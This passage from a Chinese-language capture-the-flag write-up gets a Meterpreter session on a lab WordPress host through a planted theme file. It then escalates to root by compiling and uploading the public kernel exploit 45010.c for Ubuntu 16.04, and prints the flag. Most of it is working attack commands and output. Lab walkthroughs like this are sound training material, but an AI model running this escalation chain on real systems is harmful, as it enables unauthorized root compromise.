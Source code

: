 访问 <http://192.168.0.108/wordpress/wp-content/themes/twentynineteen/secret.php（wordpress开源，通过分析源码获取路径）>

之后监听终端显示`meterpreter>`可输入命令。

### 1.4. 提权

监听端口

```shell
meterpreter> getuid
meterpreter> sysinfo #获取系统信息
```

系统信息：

```
Computer    : ubuntu
OS          : Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64
Meterpreter : php/linux
```

获取内核漏洞

打开第二个终端，进入 msfconsole

```shell
msf6> searchsploit 16.04 ubuntu
```

![image-20221207163638855.png](https://img.ghostliner.top/hXBGQE.png)

使用`linux/local/45010.c`脚本，文件路径：`/usr/share/exploitdb/exploits/linux/local/45010.c`

```shell
# 拷贝
cp /usr/share/exploitdb/exploits/linux/local/45010.c /root
# 编译
gcc 45010.c -o 45010
```

终端 1

```shell
meterpreter> upload /root/45010 /tmp/45010
meterpreter> shell #开启shell
cd /tmp
chmod +x 45010
./45010
whoami
# 回显root，提权成功
cd /root
ls
# enc
# enc.cpp
# enc.txt
# key.txt
# root.txt
# sql.py
# t.sh
# wfuzz
# wordpress.sql

cat root.txt
b2b17036da1de94cfb024540a8e7075a
```
